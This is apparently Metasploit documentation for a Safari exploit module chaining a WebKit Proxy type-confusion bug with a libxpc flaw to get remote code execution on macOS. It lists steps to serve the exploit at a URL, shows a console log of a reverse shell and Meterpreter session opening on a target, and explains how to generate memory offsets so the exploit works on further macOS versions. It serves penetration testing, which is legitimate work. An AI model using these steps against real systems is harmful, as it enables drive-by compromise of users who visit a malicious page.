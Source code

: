 ## Vulnerable Application

This module exploits a type confusion bug in the Javascript Proxy object in
WebKit. Safari on OSX 10.13.3 and lower are affected. The JS Proxy object
was introduced in Safari 10, so OSX 10.11 is not affected by the type
confusion, however the sandbox escape may still work.

The DFG JIT does not take into account that, through the use of a Proxy,
it is possible to run arbitrary JS code during the execution of a CreateThis
operation. This makes it possible to change the structure of e.g. an argument
without causing a bailout, leading to a type confusion (CVE-2018-4233).

The JIT region is then replaced with shellcode which loads the second stage.
The second stage exploits a logic error in libxpc, which uses command execution
via the launchd's "spawn_via_launchd" API (CVE-2018-4404).

## Verification Steps

1. Start `msfconsole`
1. `use exploit/osx/browser/safari_proxy_object_type_confusion`
1. `set LHOST <tab>`
1. `exploit`
1. Visit the URL on a vulnerable version of Safari

## Scenarios

### High Sierra 10.13

```
msf > use exploit/osx/browser/safari_proxy_object_type_confusion
msf exploit(osx/browser/safari_proxy_object_type_confusion) > set LHOST 192.168.0.2
LHOST => 192.168.0.2
msf exploit(osx/browser/safari_proxy_object_type_confusion) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(osx/browser/safari_proxy_object_type_confusion) >
[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Using URL: http://0.0.0.0:8080/0PiuTy
[*] Local IP: http://192.168.0.2:8080/0PiuTy
[*] Server started.

msf exploit(osx/browser/safari_proxy_object_type_confusion) >
[*] 192.168.0.2   safari_proxy_object_type_confusion - Request from Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/11.0 Safari/604.1.38
[*] Sending stage (53508 bytes) to 192.168.0.2
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.2:33200) at 2018-11-20 16:28:59 +0800

msf exploit(osx/browser/safari_proxy_object_type_confusion) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : Users-iMac.local
OS           : Darwin 17.0.0 Darwin Kernel Version 17.0.0: Thu Aug 24 21:48:19 PDT 2017; root:xnu-4570.1.46~2/RELEASE_X86_64
Architecture : x64
Meterpreter  : python/osx
```

### Adding offsets for new versions

Although all macOS versions from 10.12 -> 10.13.3 are vulnerable, some versions
are not supported. It's easy to add support for a vulnerable version by running
the script `external/source/exploits/CVE-2018-4404/gen_offsets.rb` on the
target version.

You will need to install the latest radare2 for the script to function.

```
$ git clone https://github.com/radare/radare2 && cd radare2 && ./sys/install.sh && cd ..`
$ ruby external/source/exploits/CVE-2018-4404/gen_offsets.rb
      '10.13' => {
        :dyld_stub_loader => '0x000012a8',
        :dlopen => '0x00002e60',
        :confstr => '0x000024fc',
        :strlen => '0x00001440',
        :strlen_got => '0xee8',
      },
```

The offset `:jsc_vtab` cannot be generated but you can guess it is either 0xe000 or 0xd000.
You can then add the offsets to the module:
`modules/exploits/osx/browser/safari_proxy_object_type_confusion.rb`

Please don't forget to contribute the offsets back to the framework if you have
successfully tested them.

